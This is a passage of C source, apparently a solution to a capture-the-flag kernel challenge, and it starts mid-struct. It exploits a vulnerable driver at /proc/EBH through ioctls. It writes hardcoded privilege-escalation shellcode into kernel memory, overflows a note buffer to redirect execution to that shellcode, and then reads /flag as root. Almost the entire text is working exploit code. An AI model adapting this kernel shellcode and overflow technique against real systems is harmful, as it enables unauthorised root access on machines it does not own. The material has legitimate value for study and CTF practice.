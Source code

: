 ```c
    void *peekdata;
};

struct WriteToAddrData {
    void *target;
    void *src;
    unsigned long size;
};

struct WriteNoteData {
    void *src;
    unsigned long size;
};


int main() {
    printf("ID : %d\n", getuid());


    int fd = open("/proc/EBH", O_RDONLY);

    unsigned long long shellcode_exec_addr = 0xffffffff81000000;
    unsigned long long shellcode_write_addr = 0xffffc90000045000;
    unsigned long long addr = shellcode_exec_addr;


    ioctl(fd, GET_PHYSICAL, &addr);
    printf("GET PHYSICAL : %llx\n", shellcode_exec_addr);


    char buf[0x68];
    struct PeekPhysicalData peekphysicaldata = {
        .phyaddr = addr, 
        .peeksize = 8, 
        .peekdata = buf
    };
    ioctl(fd, PEEK_PHYSICAL, &peekphysicaldata);
    printf("ioremap : %llx -> %llx\n", shellcode_exec_addr, shellcode_write_addr);


    printf("WRITE SHELLCODE\n");
    char shellcode[33] = {0x48, 0x31, 0xff, 0x48, 0xc7, 0xc2, 0xe0, 0x95, 0x8, 0x81, 0xff, 0xd2, 0x48, 0x89, 0xc7, 0x48, 0xc7, 0xc2, 0xc0, 0x92, 0x8, 0x81, 0xff, 0xd2, 0x48, 0xc7, 0xc2, 0x7e, 0x2, 0x0, 0xc0, 0xff, 0xe2};
    struct WriteToAddrData writetoaddrdata = {
        .target = shellcode_write_addr, 
        .src = shellcode, 
        .size = 33
    };
    ioctl(fd, WRITE_TO_ADDRESS, &writetoaddrdata);


    strcpy(buf, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
    *(unsigned long long *)(buf + 0x60) = shellcode_exec_addr;
    struct WriteNoteData writenotedata = {
        .src = buf, 
        .size = 0x68
    };
    ioctl(fd, WRITE_NOTE, &writenotedata);

    printf("ID : %d\n", getuid());
    system("cat /flag");
```